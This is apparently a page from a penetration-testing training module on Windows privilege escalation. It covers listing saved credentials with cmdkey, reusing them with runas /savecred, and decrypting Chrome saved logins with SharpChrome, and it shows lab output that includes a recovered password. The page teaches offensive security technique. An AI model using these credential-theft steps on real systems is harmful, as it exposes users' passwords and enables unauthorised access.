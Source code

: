

# Further Credential Theft

**Module Name:** Windows Privilege Escalation **Page Number:** 23

#### 

#### WINDOWS PRIVILEGE ESCALATION

# Further Credential Theft

## Cmdkey Saved Credentials

#### Listing Saved Credentials

``` cmd-session
C:\htb> cmdkey /list

    Target: LegacyGeneric:target=TERMSRV/SQL01
    Type: Generic
    User: inlanefreight\bob
```

![https://academy.hackthebox.com/storage/modules/67/cmdkey_rdp.png](https://academy.hackthebox.com/storage/modules/67/cmdkey_rdp.png)

#### Run Commands as Another User

``` powershell-session
PS C:\htb> runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

## Browser Credentials

#### Retrieving Saved Credentials from Chrome

``` powershell-session
PS C:\htb> .\SharpChrome.exe logins /unprotect

  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.7.0


[*] Action: Chrome Saved Logins Triage

[*] Triaging Chrome Logins for current user



[*] AES state key file : C:\Users\bob\AppData\Local\Google\Chrome\User Data\Local State
[*] AES state key      : 5A2BF178278C85E70F63C4CC6593C24D61C9E2D38683146F6201B32D5B767CA0


--- Chrome Credential (Path: C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data) ---

file_path,signon_realm,origin_url,date_created,times_used,username,password
C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data,https://vc01.inlanefreight.local/,https://vc01.inlanefreight.local/ui,4/12/2021 5:16:52 PM,13262735812597100,bob@inlanefreight.local,Welcome1
```
